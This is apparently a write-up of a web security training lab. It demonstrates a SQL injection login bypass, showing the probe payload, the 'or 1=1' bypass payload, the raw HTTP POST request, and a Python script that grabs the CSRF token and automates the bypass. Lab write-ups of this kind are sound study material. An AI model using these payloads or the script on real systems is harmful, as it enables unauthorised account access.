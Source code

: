 # Subverting application logic

URL: https://0a3d00d804c0aed280d3178f005300e4.web-security-academy.net/

## Sitemap:

URL: https://0af500970360358b80e0d1c1009300af.web-security-academy.net/login
![](./Images/Sitemap0.png)

## SQL Injection:

URL: https://0af500970360358b80e0d1c1009300af.web-security-academy.net/login

Payload:

```
csrf=FVKK1DBfNR4AjQQpNa20KCZW2DIiarGv&username=admin&password=admin'
```

![](./Images/Id0.png)

## Exploitation:

Payload:

```bash
csrf=FVKK1DBfNR4AjQQpNa20KCZW2DIiarGv&username=admin&password=admin'+or+1%3d1--+-
```

![](./Images/expl0.png)

Request:

```bash
POST /login HTTP/2
Host: 0af500970360358b80e0d1c1009300af.web-security-academy.net
Cookie: session=z9adUDk2Vz5dyebaNHMoNoo55f84IEDe
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: https://0af500970360358b80e0d1c1009300af.web-security-academy.net
Referer: https://0af500970360358b80e0d1c1009300af.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=FVKK1DBfNR4AjQQpNa20KCZW2DIiarGv&username=admin&password=admin'+or+1%3d1--+-
```

## Automation:

```python
#!/usr/bin/python3
##
import requests
import re
import pwn
from bs4 import BeautifulSoup
##
def get_csrf(req):
    s=BeautifulSoup(req.text,'html.parser')
    csrf_temp=s.find_all("input")
    csrf=""
    for X in csrf_temp:
        if "csrf" in str(X):
            csrf=X["value"]
    print(csrf)
    return csrf
#
def main(URL):
    req=requests.get(URL+"login")
    csrf=get_csrf(req)
    session=str(req.headers.get("Set-Cookie")).split(';')[0]
    print(session)
    Payload={"csrf":csrf,
             "username":"admin",
             "password":"admin' or 1=1-- -"}
    r=requests.post(f"{URL}login",data=Payload,headers={"Cookie":session})
    print(r.status_code)
    print(r.request.headers)
#
main('https://0af500970360358b80e0d1c1009300af.web-security-academy.net/')
```
